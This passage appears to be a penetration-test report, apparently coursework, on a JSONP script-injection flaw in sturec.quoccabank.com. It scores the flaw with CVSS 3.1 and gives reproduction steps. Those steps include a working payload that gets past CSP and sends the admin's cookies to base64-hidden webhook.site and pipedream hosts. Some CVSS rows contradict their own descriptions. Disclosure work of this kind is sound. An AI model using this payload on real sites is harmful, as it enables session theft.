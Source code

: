 These vulnerabilities have been addressed in further detail within the body of the report.

## Vulnerability Classification
The risks in this report have been classified in accordance to the Common Vulnerability Scoring System (CVSS) version 3.1, an industry standard for assessing the severity of computer system security vulnerabilities. 

For more information, visit the [CVSS specification document](https://www.first.org/cvss/v3.1/specification-document).

<div class="pagebreak"> </div>

# 1. Vulnerabilities
## 1.1. sturec.quoccabank.com (JSONP) 
**Threat - JSONP Script Element Injection**
### Details
| Metric                   | Description |
| ------------------------ | ----------- |
| Access Vector (AV)       | **Network (N)** - A victim must access a vulnerable system via the network. |
| Attack Complexity (AC)   | **Low (L)** - The exploit is repeatable without the requirement of system specific reconnaissance or dealing with race conditions. |
| Privileges Required (PR) | **None (N)** - An attacker must possess some user level privileges to store the malicious scripts in the vulnerable application field. |
| User Interaction (UI)    | **Required (R\)** - The victim needs to navigate to a web page on the vulnerable server that contains malicious scripts injected by the attacker. |
| Scope (S)                | **Unchanged (U)** - The vulnerability does not exceed its scope. |
| Confidentiality (C\)     | **High (H)** - In the worst case, an attacker can create privileged users or perform RCE via shell uploading to take control of the sturec application and the underlying operating system. |
| Integrity (I)            | **High (H)** - In the worst case, an attacker can create privileged users or perform RCE via shell uploading to take control of the sturec application and the underlying operating system. |
| Availability (A)         | **High (H)** - In the worst case, an attacker can shut down the sturec application, or otherwise disrupt service for all users. |

**CVSS Base Score: 8.8 (HIGH)**

### Steps to Reproduce
This vulnerability is found on the sturec.quoccabank.com domain, in the search section of the page. Users can query the student records, which can be abused to perform the attack.
- We note that the site has CSP headers in place to prevent the running of arbitrary script tags.
![](https://i.imgur.com/w6xk6fF.png)
*CSP header*
- After determining that the site is uses JSONP by observation of its network traffic and URL (both of which follow the standard and uses the "callback" variable), we instead target the JSONP protocol by preparing a server we can monitor to receive HTTP requests.
- Noting that URLs may cause issues due to URL encoding, we choose to encode the URL of the server in base64 through the `btoa` command in JavaScript and form the instruction that would ping the server. `fetch(atob("aHR0cHM6Ly93ZWJob29rLnNpdGUvNjJlZDI3ZmMtNjRjMS00NDM2LWI3ODItNWUxZTFkOWY0MGY5Lw==")`
- We append the cookies available in our browser through the `document['cookie']` JavaScript command since we note that `document.cookie` is prohibited.
- This ends up with this payload which we can input into the last name search box field and execute, initiating a request to our monitored server.
```javascript=
<script src=/students.jsonp?callback=fetch(`${atob('aHR0cHM6Ly9lbjR3azl1aW42bWFtOG4ubS5waXBlZHJlYW0ubmV0Lz9hPQ==')}${document['cookie']}`);></script>
```
- By reporting the page to admin, the exact URL along with the malicious payload is rendered on the server, divulging its secret cookies to our monitored server.
